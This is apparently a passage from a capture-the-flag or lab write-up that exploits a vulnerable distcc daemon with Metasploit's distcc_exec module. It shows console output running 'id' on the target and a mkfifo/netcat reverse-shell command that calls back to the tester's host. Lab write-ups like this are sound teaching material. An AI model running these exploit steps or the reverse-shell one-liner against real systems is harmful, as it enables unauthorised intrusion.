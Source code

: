 The exploit confirms that it is vulnerable, so I will also use Metasploitthis protocol to exploit

```shell
msf6 > search distcc

Matching Modules
================

   #  Name                           Disclosure Date  Rank       Check  Description
   -  ----                           ---------------  ----       -----  -----------
   0  exploit/unix/misc/distcc_exec  2002-02-01       excellent  Yes    DistCC Daemon Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/misc/distcc_exec

msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/reverse_bash
msf6 exploit(unix/misc/distcc_exec) > set lhost tun0 
lhost => 10.10.14.10
msf6 exploit(unix/misc/distcc_exec) > set lport 1337
lport => 1337
msf6 exploit(unix/misc/distcc_exec) > set rhosts 10.10.10.3
msf6 exploit(unix/misc/distcc_exec) > set payload cmd/unix/generic 
payload => cmd/unix/generic
msf6 exploit(unix/misc/distcc_exec) > set cmd id
cmd => id
msf6 exploit(unix/misc/distcc_exec) > run

[*] 10.10.10.3:3632 - stdout: uid=1(daemon) gid=1(daemon) groups=1(daemon)
[*] Exploit completed, but no session was created.
msf6 exploit(unix/misc/distcc_exec) > 
```

Here, I use the payload cmd/unix/genericwhich will allow me to execute specific commands, as we can clearly see in set cmd idwhere I specify my command which will be one idof the user. and that gives me a resultuid=1(daemon) gid=1(daemon) groups=1(daemon)

So now I'm going to put a payload to get a shell on the machine.

```shell
msf6 exploit(unix/misc/distcc_exec) > set cmd 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.10 1338 >/tmp/f'
cmd => rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.10 1338 >/tmp/f
Payload options (cmd/unix/generic):

   Name  Current Setting                            Required  Description
   ----  ---------------                            --------  -----------
   CMD   rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -  yes       The command string to execute
         i 2>&1|nc 10.10.14.10 1338 >/tmp/f


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.

msf6 exploit(unix/misc/distcc_exec) > run

[*] 10.10.10.3:3632 - The remote distccd did not reply to our request
```